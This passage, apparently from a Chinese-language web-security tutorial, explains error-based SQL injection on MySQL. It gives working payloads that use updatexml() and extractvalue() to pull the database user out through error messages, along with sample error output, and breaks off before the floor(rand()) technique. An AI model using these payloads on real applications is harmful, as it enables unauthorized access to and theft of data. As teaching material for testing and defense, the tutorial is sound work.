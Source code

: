 表名、字段名的猜解方法和数据库名一致，并且都可以利用Burp进行爆破。当获取了库名、表名和字段名时，就可以构造SQL语句查询数据库的数据。

## 报错注入攻击
### 原理
报错注入（Error-based SQLi）是利用数据库在执行特殊函数或非法操作时返回的错误信息，从错误内容里直接获取数据库信息的一种注入方式。MySQL 在执行某些函数（如`updatexml()`、`extractvalue()`、`floor()` 等）时，如果参数不合法，会将错误信息原封不动地返回给应用层。攻击者就可以把想要的数据嵌入到这些函数的参数中，从而让数据库“主动”在报错信息里泄露出来。

### 攻击步骤
1. 判断是否存在报错注入

在注入点尝试触发数据库错误，例如：

```sql
id=1'
```

在数据库执行SQL时，会因为多了一个单引号而报错，输出到页面的结果类似于：

```sql
java.sql.SQLSyntaxErrorException: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1''' at line 1
```

这说明程序直接将错误信息输出到了页面上，所以存在报错注入。

2. 利用报错函数输出数据

常见的可用于报错注入的函数有：

    - `updatexml()`

`updatexml(XML_document, XPath_string, new_value)`作用是对XML/XPath做更新，当`XPath_string`不是合法`XPath`时，MySQL会抛出错误，并把出错的字符串内容返回。  

```sql
id=1' AND updatexml(1,concat(0x7e,(SELECT user()),0x7e),1)--%20
```

`<font style="background-color:rgb(248, 248, 248);">~</font>`<font style="color:rgb(37, 43, 58);">符号（ASCII编码值是</font>`<font style="color:rgb(37, 43, 58);">0x7e</font>`<font style="color:rgb(37, 43, 58);">）是不存在XPath格式中的，所以使用了会报XPath语法错误。</font>`(SELECT user())`会返回当前数据库用户，例如：`root@localhost`。最后页面返回结果类似于：

```sql
java.sql.SQLException: XPATH syntax error: '~root@localhost'
```

    - `extractvalue()`

`extractvalue(xml_frag, xpath_expr)`作用是<font style="color:rgb(37, 43, 58);">从一个使用XPath语法的XML字符串中提取一个值，当</font>`<font style="color:rgb(37, 43, 58);">xpath_expr</font>`<font style="color:rgb(37, 43, 58);">不符合XPath格式，就会报错。</font>

```sql
id=1' AND extractvalue(1,concat(0x7e,(SELECT user()),0x7e))--%20
```

    -  基于`floor(rand())`+`group by`的“重复键”报错  
